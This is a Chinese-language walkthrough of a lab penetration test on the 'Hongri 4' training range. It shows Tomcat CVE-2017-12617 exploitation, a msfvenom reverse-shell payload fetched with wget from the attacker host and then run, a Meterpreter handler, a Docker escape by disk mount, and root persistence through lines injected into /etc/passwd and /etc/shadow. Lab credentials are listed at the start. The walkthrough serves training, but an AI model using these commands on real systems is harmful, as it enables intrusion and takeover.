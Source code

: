 # 红日靶场四

## 外网

```
ubuntu密码：ubuntu：ubuntu 内网：192.168.183.128 外网：192.168.1.131
dc密码：administrator：admin@123 192.168.183.130
win7密码：douser:Dotest123 192.168.183.129
kali攻击机：192.168.1.128
```

进行前期配置完毕之后

我们首先把Ubuntu的docker打开

命令提示：

```
docker ps -a 查看容器信息
docker start 【容器id】 开启容器
查询占用的docker映射占用的端口号 docker container ls -a|grep 端口号
```

<img src="image/image-20240325150600940.png" alt="image-20240325150600940" style="zoom:80%;" />

成功打开，其中有一些未能打开的容器报错可以先不管

### 信息搜集

首先进行端口扫描，发现22 2001 2002 2003开启

<img src="image/image-20240325152024244.png" alt="image-20240325152024244" style="zoom:80%;" />

尝试进行访问

发现2001对应着一个文件上传页面 

<img src="image/image-20240325153332617.png" alt="image-20240325153332617" style="zoom:80%;" />

2002对应着tomcat默认页面

<img src="image/image-20240325153357839.png" alt="image-20240325153357839" style="zoom:80%;" />

 2003是phpmyadmin

<img src="image/image-20240325153416080.png" alt="image-20240325153416080" style="zoom:80%;" />

### 漏洞利用

#### struts2漏洞

在浏览器中进行访问主机的2001端口，此时可以看到浏览的结果，上传文件后发现没有任何反应，此时发现上传之后url的后缀名发现是以.action结尾的，action可能是Java语言编写的，判断可能存在struts2的漏洞

然后查看源代码也发现如下，可能是strusts2的框架

<img src="image/image-20240325202923332.png" alt="image-20240325202923332" style="zoom:80%;" />

所以猜测存在struts2的漏洞

使用strusts2扫描工具发现

<img src="image/image-20240325204203792.png" alt="image-20240325204203792" style="zoom:80%;" />

含有s2-045，s2-046两个漏洞

<img src="image/image-20240325204412285.png" alt="image-20240325204412285" style="zoom:80%;" />

验证发现可以听过漏洞进行命令执行

<img src="image/image-20240325205324547.png" alt="image-20240325205324547" style="zoom:80%;" />

访问发现是404报错，放弃看下一个

#### tomcat

2002端口是一个apache tomcat 8.5.19

<img src="image/image-20240325205534465.png" alt="image-20240325205534465" style="zoom:80%;" />

在kali上搜索是否含有版本漏洞

![image-20240325212644547](image/image-20240325212644547.png)

把漏洞检测的poc复制出来

```
POC的含义 POC通常是一个简单的代码示例或一个脚本，用于验证某个系统或应用程序中存在的漏洞、弱点或安全问题
```

使用poc检测是否存在漏洞，这里发现是存在CVE-2017-12617这个漏洞的，这里的poc原理应该是上传了一个Poc.jsp来判断是否存在漏洞(该版本的tomcat进行漏洞查找，发现该版本存在CVE-2017-12617漏洞，这个漏洞CVE- 2017-12615是 Tomcat远程代码执行漏洞(PUT请求)，可以使用PUT方法上传任意文件)

<img src="image/image-20240325213112232.png" alt="image-20240325213112232" style="zoom:80%;" />

我们访问一下Poc.jsp，是存在的

![image-20240325213525609](image/image-20240325213525609.png)

那么存在漏洞，直接使用`-p`参数进行攻击，这里拿到了一个反弹回来的shell，这里因为是交互型shell，不太方便下一步的操作，这里尝试着上线msf

```
python 42966.py -u http://192.168.1.131:2002/ -p pwn
```

<img src="image/image-20240325213859066.png" alt="image-20240325213859066" style="zoom:80%;" />

这里拿到了命令执行的权限，所以考虑用msf生成马子，然后用权限运行，方便连接

因为是linux，所以需要生成linux的木马，在kali本地起一个http服务方便靶机下载

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f elf > shell.elf

python -m SimpleHTTPServer	#py2环境，开启http服务，使靶机能够下载马子
```

![image-20240325220134344](image/image-20240325220134344.png)

![image-20240325220137050](image/image-20240325220137050.png)

因为这里是python3，所以用python -m http.server 8000

下载shell.elf并赋权执行

```
wget http://192.168.1.10:8000/shell.elf

chmod 777 shell.elf

./shell.elf
```

<img src="image/image-20240325220446476.png" alt="image-20240325220446476" style="zoom:80%;" />

使用msf接收会话，上线成功

```
use exploit/multi/handler选择插件
set payload linux/x86/meterpreter/reverse_tcp 选择payload
set lhost 192.168.1.10 
set lport 4444
run
```

<img src="image/image-20240326203530829.png" alt="image-20240326203530829" style="zoom:80%;" />

成功上线

#### phpmyadmin









## 内网渗透

### docker逃逸

<img src="image/image-20240326204946531.png" alt="image-20240326204946531" style="zoom:80%;" />

看到这个后缀文件判断在docker容器里面

所以尝试docker逃逸

进行查看光盘时，可以看到能够挂载的光盘

<img src="image/image-20240326215230843.png" alt="image-20240326215230843" style="zoom:80%;" />

创建一个文件，把光盘sda1(当前docker镜像主空间）挂载到该文件下

<img src="image/image-20240326215949076.png" alt="image-20240326215949076" style="zoom:80%;" />

<img src="image/image-20240326220132969.png" alt="image-20240326220132969" style="zoom:80%;" />

再查看可以看到很多文件

### 提权

尝试进行修改这些文件发现，能够进行修改文件，然后在相同版本的ubuntu中进行创建用户密码，复制到此文件中

查看挂载后目录下的etc目录

<img src="image/image-20240326220459242.png" alt="image-20240326220459242" style="zoom:80%;" />

查看/9/etc/passwd

<img src="image/image-20240326220558969.png" alt="image-20240326220558969" style="zoom:80%;" />

 尝试进行修改这些文件发现，能够进行修改文件

然后在另一台虚拟机相同版本的ubuntu中进行创建用户密码，将文件中成功创建的一行，复制到此文件中

```
账户信息（etc/passwd
lidy:x:1001:1001:lidy,123,123,123,123:/home/lidy:/bin/bash
账户权限（etc/shadow
lidy:\$6\$Iw/VWaL.\$5Q5Iqv.RbKvpqBp/x1MtBkk.AWNi7NXmXXPeg4g0yB2TGatTshwq2.KjcPNhmqx57uCTerwbo6b0s5fr2qOIa0:19808:0:99999:7:::（因为echo出来有问题所以这里在每个$前面加了一个\反斜杠转义
密码
```

使用echo将用户信息加入文件中

再分别查看是否添加成功

<img src="image/image-20240326222147273.png" alt="image-20240326222147273" style="zoom:80%;" />

<img src="image/image-20240326222150471.png" alt="image-20240326222150471" style="zoom:80%;" />

成功添加
